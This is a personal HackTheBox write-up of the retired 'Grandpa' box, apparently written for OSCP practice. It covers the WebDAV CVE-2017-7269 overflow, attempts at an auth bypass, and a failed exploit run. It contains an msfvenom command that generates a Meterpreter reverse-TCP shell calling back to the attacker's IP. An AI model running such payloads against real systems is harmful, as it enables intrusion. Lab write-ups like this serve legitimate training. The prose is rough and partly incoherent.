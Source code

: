 
Name: Grandpa
Date:  5/11/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- Old HTB boxes are weird
- I am sick weird old boxes  
- Need I too frantic

## Recon

![ping](HackTheBox/Retired-Machines/Grandpa/Screenshots/ping.png)

[[CVE-2000-0114-http___10.129.95.233__vti_inf.html]] is 0 in severity, but 
[[CVE-2017-7269-http___10.129.95.233]] is critical RCE 9.5! for a buffer overflow, which there is a metasploit exploit for [https://www.exploit-db.com/exploits/41992](https://www.exploit-db.com/exploits/41992). There is also an 
[Explaination](https://www.exploit-db.com/exploits/8704) for a Remote Authenication Bypass allowing unrestricted listing downloading and uploading of files into password protected WebDAV folder. The 8806.pl did seem to work and neither did adding `%c0%af` into `curl`'s against `/images/` and  `/_Private/`. 

![](searchsploitoutput.png )

I tried for serval hours over multiple months for this box, but I do not have the time to let learning fall by the wayside. Returning to this knowing it require authenicated bypassing 

![](webdav.png)

## Exploit

Headturning I thought about making this a Helpthrough with IT security, but
[Explodingcan](https://github.com/danigargu/explodingcan) was an options I remember, as I though about following along I decide to be the most OSCP about this and do this entirely with the python2 exploit. I had already had that written above and found and was a option. Emotionally I was frantic and am still abit for various reasons of due to the [[Granny-Helped-Through]].

I wanted ot use do bothmeterpreter and the shell version and privilege escalation on windows XP does bananas time wise. But I have been burnt really hard for time and stressing about myself that its sort of me, but it is also these boxes. 
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.109 LPORT=80 > shellcode-met
```

```bash 
Traceback (most recent call last):
  File "41738.py", line 43, in <module>
    data = sock.recv(80960)
socket.error: [Errno 104] Connection reset by peer
```
Apparently
*Connection reset by peer" is the TCP/IP equivalent of slamming the phone back on the hook. It's more polite than merely not replying, leaving one hanging. But it's not the FIN-ACK expected of the truly polite TCP/IP converseur."*

The hellscape of python:
https://python.readthedocs.io/en/v2.7.2/library/httplib.html is renameed to http.client, 

I got a shell on the box, but I know would I run into the same issues, but I got metasploit issues. I know the metasploit exploit works, just not the privesc. I will finish this later a bit more calmly.

## Foothold

## PrivEsc      
https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html

https://github.com/Re4son/Churrasco/